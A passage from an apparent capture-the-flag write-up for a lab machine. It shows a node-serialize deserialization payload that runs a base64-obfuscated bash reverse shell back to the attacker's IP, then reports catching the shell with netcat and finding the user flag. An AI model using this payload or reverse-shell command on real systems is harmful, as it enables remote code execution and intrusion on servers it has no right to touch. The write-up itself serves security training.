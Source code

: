 Command:

`echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45MC85MDAxIDA+JjE= | base64 -d`

![Untitled 25.png](NodeBlog/assets/Untitled%2025.png)

Now replace the command with the above command and send the request.

```
// Payload: URL encoded semicolon and replaced all single quotes with double quotes.
// Base64 Encoded command.
{"rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45MC85MDAxIDA+JjE= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) })%3b}()"}
```

> [!important]  
> Make sure to update your tun0 IP address.  

![Untitled 26.png](NodeBlog/assets/Untitled%2026.png)

This time I got the request back, and also I got the reverse shell also In the netcat listener.

![Untitled 27.png](NodeBlog/assets/Untitled%2027.png)

Now I searched for the user flag using the find command and found it.

![Untitled 28.png](NodeBlog/assets/Untitled%2028.png)
